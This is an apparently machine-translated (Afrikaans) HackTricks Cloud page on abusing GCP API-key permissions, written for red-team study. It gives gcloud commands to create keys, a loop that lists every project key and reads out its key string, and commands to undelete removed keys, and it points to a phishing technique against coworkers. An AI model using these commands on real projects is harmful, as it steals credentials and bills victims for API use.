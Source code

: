 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

Die volgende toestemmings is nuttig om API sleutels te skep en te steel, nie dit uit die dokumentasie nie: _'n API-sleutel is 'n eenvoudige versleutelde string wat **'n toepassing identifiseer sonder enige prinsiep**. Hulle is nuttig om **publieke data anoniem** te bekom, en word gebruik om API versoeke met jou projek te **assosieer** vir kwota en **faktuur**._

Daarom, met 'n API-sleutel kan jy daardie maatskappy laat betaal vir jou gebruik van die API, maar jy sal nie in staat wees om voorregte te verhoog nie.

Vir meer inligting oor API Sleutels, kyk:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Vir ander maniere om API sleutels te skep, kyk:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key toegang <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Soos jy dalk nie weet watter API's geaktiveer is in die projek of die beperkings wat op die API-sleutel wat jy gevind het, toegepas is nie, sal dit interessant wees om die hulpmiddel [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) te gebruik en te kyk **wat jy met die API-sleutel kan toegang kry.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Hierdie toestemming laat toe om **'n API-sleutel te skep**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Let daarop dat gebruikers standaard toestemming het om nuwe projekte te skep en hulle word die eienaar rol oor die nuwe projek toegeken. So 'n gebruiker kan **'n projek en 'n API-sleutel binne hierdie projek skep**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Hierdie toestemmings laat **lys en kry al die apiKeys en kry die Sleutel**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Hierdie toestemmings laat jou toe om **verwyderde api sleutels te lys en te hergenerer**. Die **API-sleutel word in die uitvoer gegee** nadat die **undelete** voltooi is:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Skep Interne OAuth-toepassing om ander werkers te phish

Kyk na die volgende bladsy om te leer hoe om dit te doen, alhoewel hierdie aksie aan die diens **`clientauthconfig`** behoort [volgens die dokumentasie](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
